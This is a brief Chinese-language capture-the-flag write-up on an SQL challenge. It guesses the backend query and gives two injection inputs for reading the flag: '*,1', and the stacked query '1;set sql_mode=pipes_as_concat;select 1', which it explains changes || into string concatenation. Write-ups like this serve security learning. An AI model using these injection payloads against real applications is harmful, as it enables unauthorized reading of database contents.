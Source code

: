 tags:: CTF/SQL

# 思路一

猜测网站SQL为：`“select”.post[‘query’]."||flag from Flag";`

所以只要让query为`*,1`即可让SQL为`select *,1||flag from Flag`，得到flag
# 思路二

输入的内容为：

`1;set sql_mode=pipes_as_concat;select 1`
- ## 解释
- 我们执行的语句分别为：
  ```sql
  select 1
  set sql_mode=pipes_as_concat
  select 1||flag from Flag
  ```
  其中set sql_mode=pipes_as_concat;的作用为将||的作用由or变为拼接字符串
  这个模式下进行查询的时候，使用字母连接会报错，使用数字连接才会查询出数据，因为这个 || 相当于是将 select 1 和 select flag from flag 的结果拼接在一起.
  读出flag